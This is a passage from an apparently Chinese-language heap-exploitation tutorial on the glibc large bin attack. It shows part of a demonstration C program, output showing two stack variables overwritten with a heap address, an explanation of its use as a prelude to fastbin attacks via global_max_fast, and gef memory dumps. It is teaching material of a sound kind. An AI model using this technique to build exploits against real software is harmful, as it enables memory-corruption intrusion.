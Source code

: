 ```c
    fprintf(stderr, "Now we use a vulnerability to overwrite the freed second chunk\n\n");

    free(p3);
    malloc(0x30);
    fprintf(stderr, "Finally, we free the third chunk and malloc again, targets should have already been rewritten:\n");
    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);
}
```

```text
$ gcc -g large_bin_attack.c
$ ./a.out 
The targets we want to rewrite on stack:
stack_var1 (0x7fffffffdeb0): 0
stack_var2 (0x7fffffffdeb8): 0

Now, we allocate the first chunk: 0x555555757000
Then, we allocate the second chunk(large chunk): 0x555555757130
Finally, we allocate the third chunk(large chunk): 0x555555757560

Now, We free the first and the second chunks now and they will be inserted in the unsorted bin
Then, we allocate a chunk and the freed second chunk will be moved into large bin freelist

Now we use a vulnerability to overwrite the freed second chunk

Finally, we free the third chunk and malloc again, targets should have already been rewritten:
stack_var1 (0x7fffffffdeb0): 0x555555757560
stack_var2 (0x7fffffffdeb8): 0x555555757560
```

该技术可用于修改任意地址的值，例如栈上的变量 stack_var1 和 stack_var2。在实践中常常作为其他漏洞利用的前奏，例如在 fastbin attack 中用于修改全局变量 global_max_fast 为一个很大的值。

首先我们分配 chunk p1, p2 和 p3，并且在它们之间插入其他的 chunk 以防止在释放时被合并。此时的内存布局如下：

```text
gef➤  x/2gx &stack_var1 
0x7fffffffde70:	0x0000000000000000	0x0000000000000000
gef➤  x/4gx p1-2
0x555555757000:	0x0000000000000000	0x0000000000000111  <-- p1
0x555555757010:	0x0000000000000000	0x0000000000000000
gef➤  x/8gx p2-6
0x555555757110:	0x0000000000000000	0x0000000000000021
0x555555757120:	0x0000000000000000	0x0000000000000000
0x555555757130:	0x0000000000000000	0x0000000000000411  <-- p2
0x555555757140:	0x0000000000000000	0x0000000000000000
gef➤  x/8gx p3-6
0x555555757540:	0x0000000000000000	0x0000000000000021
0x555555757550:	0x0000000000000000	0x0000000000000000
0x555555757560:	0x0000000000000000	0x0000000000000411  <-- p3
0x555555757570:	0x0000000000000000	0x0000000000000000
gef➤  x/8gx p3+(0x410/8)-2
0x555555757970:	0x0000000000000000	0x0000000000000021
0x555555757980:	0x0000000000000000	0x0000000000000000
0x555555757990:	0x0000000000000000	0x0000000000020671  <-- top
0x5555557579a0:	0x0000000000000000	0x0000000000000000
```
